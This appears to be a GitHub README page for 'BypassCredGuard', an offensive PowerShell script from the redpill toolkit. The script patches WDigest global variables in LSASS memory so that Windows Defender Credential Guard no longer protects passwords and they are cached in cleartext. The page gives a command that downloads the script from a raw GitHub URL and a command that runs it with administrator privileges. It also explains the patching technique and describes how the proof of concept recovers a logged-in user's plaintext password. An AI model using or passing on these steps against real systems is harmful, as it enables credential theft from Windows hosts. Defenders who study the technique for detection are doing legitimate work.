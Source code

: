 ## BypassCredGuard.exe

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[BypassCredGuard](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/DeviceGuard.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/DeviceGuard.ps1" -OutFile "DeviceGuard.ps1"
```

<br />

**run cmdlet:**
```powershell
.\DeviceGuard.ps1
```

<br />

**Final Notes:**
```powershell
BypassCredGuard - Credential Guard Bypass Via Patching Wdigest Memory

## Background
Adam Chester wrote an article called "Exploring Mimikatz - Part 1 - WDigest" about memory patching to enable UseLogonCredential
and make Wdigest cache cleartext credentials intrigued me. The wdigest.dll module loaded by the LSASS process has two interesting
global variables: `g_fParameter_useLogonCredential` and `g_IsCredGuardEnabled`, their role is self-evident from the name alone,
the former is used to determine whether the clear text password should be stored in memory , the latter holds the state of the
Windows Defender Credential Guard within the module, and Wdigest plaintext password caching can be enabled on systems with
Credential Guard by patching the values of these two global variables in memory.

## Let’s see it in action
Run the POC we wrote on the system with Credential Guard protection enabled.
When the user enters the username and password to log in again, we get his plaintext password again
```

<br />

![poc](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/DeviceGuard.png)
